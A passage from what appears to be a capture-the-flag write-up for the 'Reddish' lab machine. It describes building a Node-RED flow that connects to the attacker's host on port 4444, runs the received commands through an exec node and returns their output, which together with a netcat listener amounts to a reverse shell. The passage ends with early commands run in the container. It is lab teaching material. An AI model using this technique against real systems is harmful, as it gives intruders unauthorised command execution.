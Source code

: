 ![image.png]({{ site.baseurl }}/assets/reddish/image%204.png)

We are on the web ui. 

ON the top right-hand side, we click on the drop down menu bar, we find out the version is: 

![image.png]({{ site.baseurl }}/assets/reddish/image%205.png)

It seems we can use node-red to create a TCP connection onto the server. First, from the input, we drag a TCP button and set it to the following settings:

```bash
Connect to
Port 4444
at host 10.10.16.4
```

![image.png]({{ site.baseurl }}/assets/reddish/image%206.png)

In the advanced tab, we find function to exec:

![image.png]({{ site.baseurl }}/assets/reddish/image%207.png)

Now let’s direct the output to our host as well. In the output section, we find another TCP function and let’s map the stdout, stderr and error code to our host:

![image.png]({{ site.baseurl }}/assets/reddish/image%208.png)

Let’s settings to Reply To TCP:

![image.png]({{ site.baseurl }}/assets/reddish/image%209.png)

Now let’s start a listener, and after clicking on deploy, we will see a connection:

```bash
nc -lnvp 4444
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2010.png)

## Node-red Foothold

Let’s find out our IP address:

```bash
[object Object]cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.19.0.3      nodered
172.18.0.2      nodered
[object Object]hostname
nodered

```
